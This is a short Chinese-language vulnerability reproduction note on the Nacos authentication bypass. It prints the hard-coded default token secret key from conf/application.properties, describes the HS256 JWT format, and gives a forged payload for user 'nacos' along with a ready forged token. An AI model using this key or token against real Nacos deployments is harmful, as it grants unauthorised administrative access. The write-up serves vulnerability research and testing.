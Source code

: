 ### 漏洞复现

在配置文件 conf/application.properties 中，默认硬编码 nacos.core.auth.plugin.nacos.token.secret.key 的值。

```
nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789
```

Nacos 使用 jwt token，算法为 HS256，将 secret.key 的默认值当作 secretKey，生成Signature。jwt token 的 Payload 为 subject（用户名）和 exp（有效期）。

我们伪造一个 jwt token，Payload：

```
{
  "sub": "nacos",
  "exp": 1696669333
}
```

![image-20230609155053114](images/image-20230609155053114.png)

伪造的 jwt token：

```
eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5OTg4ODc3N30.bYEColBVGkF-H-kGr9PxWnbmZZp66z77NXUNHXZbbnw
```
